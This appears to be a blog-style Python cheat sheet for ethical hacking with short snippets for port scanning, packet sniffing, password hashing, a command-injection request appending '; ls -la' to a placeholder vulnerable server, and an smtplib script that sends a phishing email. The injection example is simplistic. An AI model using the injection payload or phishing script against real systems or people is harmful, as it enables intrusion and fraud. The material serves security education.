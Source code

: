 # Python Cheat Sheet for Ethical Hackers
Here's the python cheat sheet you need for ethical hacking and penetration testing
AMAKIRI WELEKWE TECHNOLOGY ADVISOR | CYBERSECURITY EVANGELIST

   
Python Cheat Sheet for Ethical Hackers

Python is a versatile programming language that can be used for various purposes, including ethical hacking and penetration testing

Python’s simplicity, extensive libraries, and active community make it a popular choice for these tasks. Here are a few ways Python can be used in ethical hacking and penetration testing:

Network Scanning Python provides libraries like Scapy and Nmap that allow you to create network scanners to discover open ports, identify network services, and perform host discovery.
Exploit Development Python can be used to write exploits and develop proof-of-concept code. The Metasploit Framework, a widely used penetration testing tool, has a Python interface that allows you to automate exploits.
Web Application Testing Python frameworks like Flask and Django are useful for creating web applications, but they can also be used to test web applications for vulnerabilities. Libraries like Requests and BeautifulSoup enable HTTP requests, response parsing, and web scraping.
Password Cracking Python can be utilized to build password-cracking tools by implementing techniques like brute-force attacks or dictionary attacks. Libraries such as hashlib and bcrypt assist in password hashing and salting.
Wireless Network Auditing Python libraries like Scapy and PyRIC enable wireless network auditing tasks such as sniffing, deauthentication attacks, and capturing network packets.
Social Engineering Python can be used to automate social engineering attacks, such as sending phishing emails, interacting with social media APIs for reconnaissance, or generating malicious documents.
Reporting and Automation Python’s ability to parse and manipulate data makes it useful for automating repetitive tasks, generating reports, and analyzing the results of security tests.
Cheat Sheet for Ethical Hacking
The following is a list of the most important and frequently used Python commands for ethical hacking and pen testing:

## 1. Networking and Scanning

Commands to scan open ports.

```python
import socket

target = "192.168.0.1"

port = 80

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

result = sock.connect_ex((target, port))

if result == 0:

    print("Port {} is open".format(port))

else:

    print("Port {} is closed".format(port))

```

## 2. Exploitation and Payloads

Here’s how to execute a system command on a vulnerable server

```
import requests

url = "http://vulnerable-server.com/command.php"

payload = "; ls -la"

response = requests.get(url + payload)

print(response.text)
```

## 3. Web Application Testing

Commands for sending a POST request with parameters

```
import requests

url = "http://vulnerable-site.com/login"

data = {

    "username": "admin",

    "password": "password123"

}

response = requests.post(url, data=data)

print(response.text)
```

## 4. Password Cracking and Hashing

Here’s how to generate a hash of a password using SHA-256

```
import hashlib

password = "password123"

hashed_password = hashlib.sha256(password.encode()).hexdigest()

print(hashed_password)
```

## 5. Wireless Network Auditing

Commands for sniffing packets on a wireless network interface.

```
import pyshark

capture = pyshark.LiveCapture(interface='wlan0')

capture.sniff()

for packet in capture:

    print(packet)

```

## 6. Social Engineering

Commands for sending a phishing email using smtplib:

```
import smtplib

from_email = "attacker@gmail.com"

to_email = "victim@example.com"

subject = "Important Message"

body = "This is a phishing email."

msg = "From: {}\nTo: {}\nSubject: {}\n\n{}".format(from_email, to_email, subject, body)

server = smtplib.SMTP("smtp.gmail.com", 587)

server.starttls()

server.login("attacker@gmail.com", "password")

server.sendmail(from_email, to_email, msg)

server.quit()
```

It’s important to note that ethical hacking and penetration testing should be performed legally and with proper authorization. Always adhere to ethical guidelines and obtain the necessary permissions before conducting any security testing on systems or networks that you don’t own or have permission to test.
